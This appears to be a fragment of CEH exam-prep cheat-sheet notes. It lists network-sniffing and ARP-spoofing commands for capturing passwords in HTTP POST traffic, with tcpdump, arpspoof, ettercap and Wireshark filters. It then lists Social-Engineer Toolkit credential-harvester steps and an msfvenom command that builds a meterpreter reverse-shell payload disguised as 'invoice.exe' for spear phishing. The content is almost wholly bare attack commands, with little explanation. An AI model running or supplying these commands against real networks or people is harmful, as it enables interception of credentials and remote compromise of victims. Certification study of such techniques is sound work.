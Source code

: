 ```
4. Filter: http.request.method == "POST" && http contains "password"
```

# Run these until automatic:

```
tcpdump -i eth0 -nn -vv 'port 80'
```

```
arpspoof -i eth0 -t victim_ip gateway_ip
```

```
wireshark -Y "http.request.method == POST"
```

```
ettercap -T -q -i eth0 -M arp
```

**[Back to top](#top)**
___

## Module 09: Social Engineering

  
```

# SET Toolkit

setoolkit

# Select:

1) Social-Engineering

2) Website Attack Vectors

3) Credential Harvester

  
  

# Spear Phishing

msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP -f exe > invoice.exe

```

  

[[CEH Walkthrough#^top|Back to top]]

___
